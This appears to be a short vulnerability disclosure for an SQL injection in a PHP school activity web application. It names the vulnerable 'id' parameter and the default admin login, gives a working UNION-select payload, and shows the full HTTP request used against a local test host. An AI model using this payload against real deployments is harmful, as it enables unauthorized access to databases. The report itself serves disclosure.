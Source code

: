 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: 0xdawn & Yc liu

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/event/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/event/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload: /activity/admin/modules/event/index.php?view=edit&id=-201800036%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /activity/admin/modules/event/index.php?view=edit&id=-201800036%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183559343-29dc221c-3b7b-4b57-8e6b-55bdc9f090d4.png)
